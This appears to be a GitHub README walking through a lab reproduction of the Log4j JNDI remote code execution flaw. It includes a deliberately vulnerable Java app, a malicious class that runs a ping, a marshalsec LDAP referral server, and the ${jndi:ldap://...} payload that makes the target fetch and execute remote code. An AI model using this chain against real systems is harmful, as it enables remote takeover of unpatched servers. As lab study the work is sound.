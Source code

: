 Thanks for : 

https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce

https://github.com/mbechler/marshalsec

Okay flow is simple:

When we sent a input to any application, they logs some request for later analysis. apache log4j library used for logging these inputs. We will send a payload and execute codes from apache log4j library during logging

I tested on "apache-log4j-2.13.0"

first i will create a java vulnerable application. Basicly it gets an input and use that input inside of "logger.error" function

	package log4j;
	import java.util.*;  

	import org.apache.logging.log4j.LogManager;
	import org.apache.logging.log4j.Logger;

	public class main {

		private static final Logger logger = LogManager.getLogger(main.class);
		public static void main(String[] args) {
			Scanner sc= new Scanner(System.in); //System.in is a standard input stream  
			System.out.print("Enter a string: ");  
			String str= sc.nextLine();              //reads string  
			System.out.print("You have entered: "+str);
			logger.error(str);
		}

	}
	
i will craft a special "exploit.java" file for code execution, for test we will make payload to ping somewhere

	└─$ cat exploit.java
	public class exploit {
			static {
					try {
							Runtime.getRuntime().exec("cmd.exe /c ping 192.168.200.101");
					} catch (Exception e) {
							e.printStackTrace();
					}
			}
	}         


Start tcp dump and filter for icmp package

	└─$ sudo tcpdump -i eth0 icmp                                                                                                                  
	[sudo] password for kali: 
	tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
	listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes

convert "exploit.java" file to "exploit.class" file

	javac exploit.java
	
Now start a simple http server inside of directory

	└─$ sudo python -m SimpleHTTPServer 80                                                                                              
	[sudo] password for kali: 
	Serving HTTP on 0.0.0.0 port 80 ...


We will start a LDAP server, first java application will reach ldap server and this ldap server will redirect request to HTTP server (192.168.200.101)

	└─$ java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://192.168.200.101/#exploit
	Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
	Listening on 0.0.0.0:1389
	
We will start vulnerable application and sent a payload like: (ip adress is ldap server ip)

	${jndi:ldap://192.168.200.101:1389/exploit}
	
run test application and give input (we will get and error message but ignore it)

	Enter a string: ${jndi:ldap://192.168.200.101:1389/exploit}
	You have entered: ${jndi:ldap://192.168.200.101:1389/exploit}
	23:40:46.982 [main] ERROR log4j.main - ${jndi:ldap://192.168.200.101:1389/exploit}

first check ldap server, it redirected our HTTP server

	└─$ java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://192.168.200.101/#exploit
	Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
	Listening on 0.0.0.0:1389
	Send LDAP reference result for exploit redirecting to http://192.168.200.101/exploit.class


On HTTP server you can see GET request for payload

	└─$ sudo python -m SimpleHTTPServer 80                                                                                              
	[sudo] password for kali: 
	Serving HTTP on 0.0.0.0 port 80 ...
	192.168.200.1 - - [12/Dec/2021 15:40:47] "GET /exploit.class HTTP/1.1" 200 -

Check tcpdump and see if there is any ping request

	└─$ sudo tcpdump -i eth0 icmp                                                                                                                
	[sudo] password for kali: 
	tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
	listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
	15:43:24.801831 IP 192.168.200.1 > 192.168.200.101: ICMP echo request, id 1, seq 256, length 40
	15:43:24.801917 IP 192.168.200.101 > 192.168.200.1: ICMP echo reply, id 1, seq 256, length 40
	15:43:25.811859 IP 192.168.200.1 > 192.168.200.101: ICMP echo request, id 1, seq 257, length 40
	15:43:25.811904 IP 192.168.200.101 > 192.168.200.1: ICMP echo reply, id 1, seq 257, length 40
	15:43:26.824831 IP 192.168.200.1 > 192.168.200.101: ICMP echo request, id 1, seq 258, length 40
	15:43:26.824874 IP 192.168.200.101 > 192.168.200.1: ICMP echo reply, id 1, seq 258, length 40
	15:43:27.836873 IP 192.168.200.1 > 192.168.200.101: ICMP echo request, id 1, seq 259, length 40
	15:43:27.836920 IP 192.168.200.101 > 192.168.200.1: ICMP echo reply, id 1, seq 259, length 40
